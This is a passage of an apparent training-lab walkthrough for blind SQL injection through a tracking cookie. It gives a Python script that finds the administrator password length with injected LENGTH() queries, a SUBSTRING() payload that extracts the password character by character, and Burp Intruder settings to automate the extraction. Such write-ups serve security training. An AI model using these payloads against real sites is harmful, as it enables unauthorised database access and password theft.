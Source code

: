     # Base URL of the lab
    url = "YOUR_LAB_URL_HERE" # e.g., '[https://0a540000000000000000000000000000.web-security-academy.net/filter?category=Lifestyle](https://0a540000000000000000000000000000.web-security-academy.net/filter?category=Lifestyle)'
    # Base cookie value (replace with what you observe in Burp)
    base_cookie = "TrackingId=YOUR_BASE_TRACKING_ID; session=YOUR_SESSION_ID" # e.g., "TrackingId=0987abc; session=0123xyz"

    def get_length():
        print("Finding password length...")
        for i in range(1, 101): # Check lengths from 1 to 100
            payload = f"' AND LENGTH((SELECT password FROM users WHERE username='administrator')) = {i}--"
            
            # Construct the cookie with the payload
            cookie = {'TrackingId': base_cookie.split(';')[0].split('=')[1] + payload, 
                      'session': base_cookie.split(';')[1].split('=')[1]}
            
            r = requests.get(url, cookies=cookie)
            if "Welcome back" in r.text:
                print(f"Password Length: {i}")
                return i
        print("Could not determine password length.")
        return None

    password_length = get_length()
    ```

### 🔹 Step 4: Extract Password Characters One by One

Now that we know the password length (e.g., 20), we need to extract each character. We'll use the `SUBSTRING()` SQL function (or similar, like `SUBSTR()` for Oracle/PostgreSQL) and compare each character against a known character set.

1.  **Character Set:** Define a set of possible characters (alphanumeric, special characters).
    * E.g., `abcdefghijklmnopqrstuvwxyz0123456789`

2.  **Formulate the Payload:**
    `' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), I, 1) = 'C'--`
    where:
    * `I`: is the position of the character we're guessing (from 1 to `password_length`).
    * `C`: is the guessed character.

3.  **Using Burp Intruder (Recommended for Brute-forcing Characters):**
    * Send the request from Repeater to **Intruder**.
    * Set the attack type to **Cluster Bomb** (because we have two variable positions: character index `I` and guessed character `C`).
    * Define two payload positions:
        * `§I§`: for the character index.
        * `§C§`: for the guessed character.
        * Example: `Cookie: TrackingId=xyz' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'), §I§, 1) = '§C§'--`
    * Go to **Payloads**.
    * **Payload Set 1 (for `§I§` - Character Position):**
        * **Payload type:** Numbers
        * **From:** `1`, **To:** `password_length` (e.g., `20`), **Step:** `1`.
    * **Payload Set 2 (for `§C§` - Guessed Character):**
        * **Payload type:** Brute forcer (or Character set, if you define one)
        * **Character set:** `abcdefghijklmnopqrstuvwxyz0123456789` (or a more comprehensive set if needed).
        * **Min length:** `1`, **Max length:** `1`.
    * Go to **Options -> Grep - Match**.
    * Ensure `Welcome back` is still added as a "Grep - Match" item.
